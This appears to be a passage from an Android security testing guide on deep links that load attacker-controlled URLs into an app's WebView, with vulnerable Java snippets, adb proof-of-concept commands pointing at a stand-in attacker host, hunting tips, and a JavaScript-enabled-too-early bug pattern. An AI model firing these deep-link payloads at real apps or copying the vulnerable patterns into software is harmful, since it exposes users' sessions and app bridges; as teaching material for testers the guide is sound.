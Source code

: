 ```java
// Entry activity
@Override
protected void onNewIntent(Intent intent) {
    Uri deeplink = intent.getData();
    String url = deeplink.getQueryParameter("url"); // attacker-controlled
    if (deeplink.getPathSegments().get(0).equals("web")) {
        Intent i = new Intent(this, WebActivity.class);
        i.putExtra("url", url);
        startActivity(i);
    }
}

// WebActivity sink
webView.loadUrl(getIntent().getStringExtra("url"));
```

Attack pattern and PoC via adb:

```bash
# Template – force load in internal WebView
adb shell am start -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# If a specific Activity must be targeted
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```

Impact: the remote page runs in the app WebView context (cookies/session of the app WebView profile, access to any exposed @JavascriptInterface, potential access to content:// and file:// depending on settings).

Hunting tips:
- Grep decompiled sources for `getQueryParameter("url")`, `loadUrl(`, `WebView` sinks, and deep-link handlers (`onCreate/onNewIntent`).
- Review the manifest for VIEW+BROWSABLE filters and custom schemes/hosts that map to activities that later start a WebView.
- Check if there are multiple deep-link paths (e.g., an “external browser” path vs. an “internal webview” path) and prefer the one that renders inside the app.

### Enabling JavaScript before verification (order-of-checks bug)

A frequent hardening mistake is enabling JavaScript or configuring relaxed WebView settings before the final allowlist/verification of the target URL completes. If the verification is inconsistent across helpers or happens too late, an attacker deep link can reach a state where:

1) WebView settings apply (e.g., `setJavaScriptEnabled(true)`), and
2) The untrusted URL is loaded with JavaScript enabled.

Bug pattern (pseudocode):

```java
// 1) Parse/early checks
Uri u = parse(intent);
if (!looksValid(u)) return;

// 2) Configure WebView BEFORE final checks
webView.getSettings().setJavaScriptEnabled(true); // BAD: too early
configureMixedContent();

// 3) Do final verification (late)
if (!finalAllowlist(u)) return; // too late – JS already enabled

// 4) Load
webView.loadUrl(u.toString());
```
